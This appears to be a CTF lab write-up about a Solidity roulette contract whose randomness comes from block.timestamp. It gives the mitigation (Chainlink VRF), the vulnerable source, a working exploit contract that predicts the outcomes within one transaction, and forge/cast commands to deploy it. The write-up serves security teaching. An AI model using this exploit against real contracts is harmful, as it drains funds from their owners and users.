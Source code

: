 ## Mitigation

The heist you just did has the vulnerability of insecure randomness because it's using *block.timestamp* in these two functions &nbsp;  
&nbsp;  

```solidity
function randomGenerator() internal view returns(uint256){
    return uint256(keccak256(abi.encodePacked(block.timestamp))) % 100;
}

function biggerRandomGenerator() internal view returns(uint256){
    return uint256(keccak256(abi.encodePacked(block.timestamp))) % 10000000;
}
```

The only way to mitigate this if we really need the randomness is to use *Chainlink VRF*. To see how you can implement the verifiable random function, you can refer to these docs. &nbsp;  
&nbsp;  

- https://docs.chain.link/vrf

## Walkthrough

In this Game, we need to have the *stolenEnough()* bool return true in order to solve the lab. &nbsp;  
&nbsp;  
```solidity
contract Setup{
    Roulette public roulette;

    constructor() payable {
        roulette = new Roulette{value: 30 ether}();
    }

    function isSolved() public view returns(bool){
        return roulette.stolenEnough();
    }
}
```
&nbsp;  
Now let's see the *Roullete Contract* &nbsp;   
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract Roulette{

    bool public stolenEnough = false;
    mapping(address => uint) public wonRoulette;

    modifier _kickedOut(){
        require(wonRoulette[msg.sender] <= 100, "You've stolen enough, get out!");
        _;
    }

    modifier _hasStolenEnough(){
        _;
        if(address(msg.sender).balance > 20){
            stolenEnough = true;
        }
    }

    constructor() payable {}

    function randomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 100;
    }

    function biggerRandomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 10000000;
    }

    function playRoulette(uint256 _guess) public _kickedOut{
        require(wonRoulette[msg.sender] < 5, "You cannot play this game again!");
        uint256 playerGuess = _guess;
        uint256 randomNumber = randomGenerator();
        if(randomNumber == playerGuess){
            wonRoulette[msg.sender]++;
            (bool winningMoney, ) = msg.sender.call{value: 1 ether}("");
            require(winningMoney, "Fail to claim winning money");
        }
    }

    function playBiggerRoulette(uint256 _guess) public _kickedOut _hasStolenEnough{
        require(wonRoulette[msg.sender] >= 5, "You haven't met the requirement to play the game!");
        uint256 playerGuess = _guess;
        uint256 randomNumber = biggerRandomGenerator();
        if(randomNumber == playerGuess){
            wonRoulette[msg.sender] += 50;
            (bool winningMoney, ) = msg.sender.call{value: 10 ether}("");
            require(winningMoney, "Fail to claim winning money");
        }
    }
    
}
``` 
&nbsp;  
We have 2 modifiers up there; one is *_kickOut()* that will check whether we have a score of winning about 100 or not; if we are, then we can no longer play the game. The second one is *_hasStolenEnough()* this is the one that will check after all the code in the function is complete. If the balance of the player is greater than 20 Ether,it will change the *stolenEnough* bool to true, so our goal here is to have a balance greater than 20 Ether. &nbsp;  
&nbsp;  

The first 2 functions below the constructor seem to be the generator of the source of the randomness, and it doesn't seem to be that secure since it uses a predictable, or at least we can also get that variable from the *block.timestamp*, the only difference is the modulo. Both of them are used for different functions; the *randomGenerator()* is used by *playRoullete()* and the *biggerRandomGenerator()* is used by *playBiggerRoulette()*.  &nbsp;  
&nbsp;  
So we are dealing with an insecure randomness vulnerability here. Let's see the *playRoulette()* first. If we manage to guess the correct number, we will get 1 Ether, and it adds our winning by 1, so we can only play this maximum of 5 times since when we reach 5, it will revert. The other one, *playBiggerRoullete()* seems to give more reward and won counter, but it requires us to have at least 5 wins already (so we need to play the smaller one first). If we managed to guess right, we will get 10 ether per win and it will add 50 winning point, so we can only play this twice since it has the *_kickedOut()* modifier, and it will also validate our balance by the *_hasStolenEnough()* modifier. &nbsp;  
&nbsp;  
So the attack idea here is to play the *playRoulette()* 5 times and then move to the *playBiggerRoulette()* 2 times; it will give us 25 Ether in total, more than enough to make the *stolenEnough()* become true, but we can't just play it since it has *block.timestamp* as the source of randomness, we need to make an exploit contract here; it will look like this &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./Setup.sol";
import "./Roulette.sol";

contract exploit{
    Setup public setup;
    Roulette public roulette;

    constructor(address _setup) {
        setup = Setup(_setup);
        roulette = Roulette(setup.roulette());
    } 

    function randomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 100;
    }

    function biggerRandomGenerator() internal view returns(uint256){
        return uint256(keccak256(abi.encodePacked(block.timestamp))) % 10000000;
    }

    function playRoulette() public{
        uint256 answer = randomGenerator();
        uint256 bigAnswer = biggerRandomGenerator();
        for(uint i = 0; i < 5; i ++){
            roulette.playRoulette(answer);
        } 
        roulette.playBiggerRoulette(bigAnswer);
        roulette.playBiggerRoulette(bigAnswer);
    }

    receive() external payable { }    
}
```
&nbsp;  
Now we just need to deploy the contract and call *playRoulette()* on our smart contract to solve it. Here is how you can deploy the exploit contract. &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/roulette/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// Call the playRoulette()
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "playRoulette()"
``` 
&nbsp;  
By doing the command above, deploying the contract, and calling it, you should've solved the lab!